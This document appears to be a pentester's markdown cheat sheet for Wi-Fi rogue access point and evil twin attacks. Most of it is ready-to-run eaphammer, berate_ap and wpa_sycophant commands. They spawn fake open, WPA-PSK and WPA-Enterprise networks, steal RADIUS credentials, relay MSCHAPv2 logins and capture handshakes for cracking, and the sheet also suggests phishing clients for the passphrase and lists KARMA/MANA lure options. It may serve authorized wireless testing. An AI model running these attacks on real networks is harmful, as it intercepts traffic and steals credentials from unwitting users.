 # Rogue AP / Evil Twin  
##	Basic Open Hotspot  
		berate_ap <interface_AP> <interface_internet> <SSID>  
##	Open Network Evil Twin  
		airgeddon.sh  
		fluxion.sh  
		wifipumpkin3  
		eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>  
##	WPA/WPA2-Personal Evil Twin  
		WPA Passphrase Known  
			eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk --essid <SSID> --wpa-passphrase <passphrase>  
		WPA Passphrase Unknown  
			Spawn Open Network Evil Twin instead to attack clients (e.g. Phishing attack to retrieve Passphrase)  
			Capture WPA (half) Handshake of connecting clients & Cracking  
				eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk --essid <SSID> --wpa-passphrase randompassphrase --capture-wpa-handhshake  
##	WPA/WPA2-Enterprise Evil Twin  
###		RADIUS Credentials Unknown  
####			RADIUS Credentials Stealing  
			eaphammer --cert-wizard  
	                eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap --essid <SSID> --creds  
			Possible if:  
                    - EAP method does not use client-certificat for client authentication  
                    - Server certificate validation not enforced on client  
			EAP (MSCHAPv2) Relay  
				berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout <file_captured_creds> <interface_AP> <interface_internet> <SSID>  
                wpa_sycophant.sh -c wpa_sycophant_example.conf -i <interface>  
				Possible if:  
                    - Target network uses EAP method with MSCHAPv2 for client authentication  
                    - Server certificate validation not enforced on client  
###		RADIUS Credentials Known  
			ehdb --add --identity <username> --password <password> # Add credentials in db  
   		         ehdb --add --identity <username> --nt-hash <ntlm_hash>  # Add creds with NTLM hash in db  
		            eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap  --essid <SSID_corporate_wifi>  

###	802.11 Network Selection Algorithms Abuse (for Open Network)  
		KARMA Attack (outdated)  
			By default with wifiphisher  
		MANA Attack (KARMA improvement)  
			Add --mana option in eaphammer command  
		Loud MANA (MANA Improvement)  
			Add --mana --loud in eaphammer command  
		Known Beacons Attack  
			Add --mana --knwon-beacons in eaphammer command  
			Abuse clients' passive scanning  
